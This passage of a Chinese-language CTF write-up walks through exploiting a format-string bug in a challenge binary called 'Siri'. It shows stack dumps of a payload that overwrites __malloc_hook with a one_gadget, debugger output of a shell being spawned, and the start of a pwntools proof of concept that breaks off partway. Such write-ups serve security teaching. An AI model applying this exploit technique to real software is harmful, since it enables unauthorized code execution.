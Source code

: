 构造完`payload`执行至`printf`处，栈上的信息如下：

```assembly
# stack
      0x7ffe0bc18c00 <- 0x6d20646e696d6552 ('Remind m') <- strlength:0x80
      0x7ffe0bc18c08 <- 0x363125206f742065 ('e to %16')
      0x7ffe0bc18c10 <- 0x6868243436256337 ('7c%64$hh')
      0x7ffe0bc18c18 <- 0x353625633731256e ('n%17c%65')
      0x7ffe0bc18c20 <- 0x633634256e686824 ('$hhn%46c')
      0x7ffe0bc18c28 <- 0x256e686824363625 ('%66$hhn%')
      0x7ffe0bc18c30 <- 0x2437362563313531 ('151c%67$')
      0x7ffe0bc18c38 <- 0x63343531256e6868 ('hhn%154c')
      0x7ffe0bc18c40 <- 0x256e686824383625 ('%68$hhn%')
      0x7ffe0bc18c48 <- 0x6824393625633737 ('77c%69$h')
      0x7ffe0bc18c50 <- 0x6161616161616e68 ('hnaaaaaa')
      0x7ffe0bc18c58 <- 0x6161616161616161 ('aaaaaaaa')<- padding
      .
      .
      .
      0x7ffe0bc18c80 -> 0x7f32983b9c30 (__malloc_hook)  <- target address
      0x7ffe0bc18c88 -> 0x7f32983b9c31 (__malloc_hook+1) 
      0x7ffe0bc18c90 -> 0x7f32983b9c32 (__malloc_hook+2) 
      0x7ffe0bc18c98 -> 0x7f32983b9c33 (__malloc_hook+3) 
      0x7ffe0bc18ca0 -> 0x7f32983b9c34 (__malloc_hook+4) 
      0x7ffe0bc18ca8 -> 0x7f32983b9c35 (__malloc_hook+5) 

pwndbg> fmtarg 0x7ffe0bc18c80
The index of format argument : 65 ("\%64$p")
```

执行`printf`后，`malloc_hook`的地址被修改成了`one_gadget`，此时继续循环，发送`%300000c`长度的格式化字符串，即可`get_shell`：

```assembly
pwndbg> x /gx 0x7f32983b9c30                       <- before printf
0x7f32983b9c30 <__malloc_hook>: 0x0000000000000000

pwndbg> x /gx 0x7f32983b9c30                       <- after printf
0x7f32983b9c30 <__malloc_hook>: 0x00007f329801d3c2

[DEBUG] Sent 0x17 bytes:
    'Remind me to %3000000c\n'                     <- long format string

pwndbg> c
Continuing.
process 22459 is executing new program: /bin/dash  <- get shell
```

完整`POC`如下：

```python
#coding:utf-8
from pwn import*

p = process('./Siri')
elf = ELF('./Siri')
libc = ELF('./libc.so.6')


def lauch_gdb(p):
    context.log_level = 'debug'
    context.terminal = ['tmux', 'splitw', '-h']
    gdb.attach(p)


def add(payload):
    sla(">>>","Hey Siri!")
    ru("What Can I do for you?")
```